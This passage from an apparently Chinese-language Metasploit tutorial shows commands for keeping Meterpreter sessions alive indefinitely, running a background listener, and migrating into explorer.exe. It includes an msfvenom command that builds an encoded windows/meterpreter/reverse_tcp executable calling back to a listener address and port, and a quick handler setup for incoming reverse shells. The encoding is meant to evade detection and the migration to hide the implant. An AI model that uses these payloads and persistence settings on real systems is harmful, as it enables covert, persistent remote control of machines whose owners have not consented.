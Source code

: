 ```
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0

msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 //默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
```

###### (3) handler后台持续监听

``` 
msf exploit(multi/handler) > exploit -j -z

-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。
```

###### (4) 上线后自动迁移进程到explorer.exe

```
set autorunscript migrate -n explorer.exe
```

也可以在使用msfvenom生成马的时候指定:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=explorer.exe -f exe -o  shell.exe

解释:
PrependMigrate=true PrependMigrateProc=explorer.exe 获取shell后,将自动迁移到另一个进程 自动注入进程explorer.exe
```

###### (5) 快捷的建立监听的方式:

``` 
msf5 > handler -H 192.168.1.223 -P 9999 -p windows/meterpreter/reverse_tcp
```

